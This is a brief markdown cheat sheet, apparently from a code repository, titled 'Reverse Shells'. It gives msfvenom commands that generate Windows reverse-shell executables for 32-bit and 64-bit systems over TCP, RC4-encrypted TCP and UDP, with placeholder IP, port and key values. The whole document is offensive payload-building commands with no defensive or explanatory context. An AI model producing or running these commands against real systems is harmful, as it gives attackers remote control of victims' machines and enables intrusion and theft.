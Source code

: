 # Reverse Shells

## 01 - x86 (32-bit) Payloads

```
$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x86.exe

$ msfvenom -p windows/shell/reverse_tcp_rc4 lhost=<IP> lport=<PORT> rc4password="<KEY>" -f exe -o shell-enc-x86.exe

$ msfvenom -p windows/shell/reverse_udp lhost=<IP> lport=<PORT> -f exe -o shell-x86.exe
```

## 02 - x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x64.exe

$ msfvenom -p windows/x64/shell/reverse_tcp_rc4 lhost=<IP> lport=<PORT> rc4password="<KEY>" -f exe -o shell-enc-x64.exe
```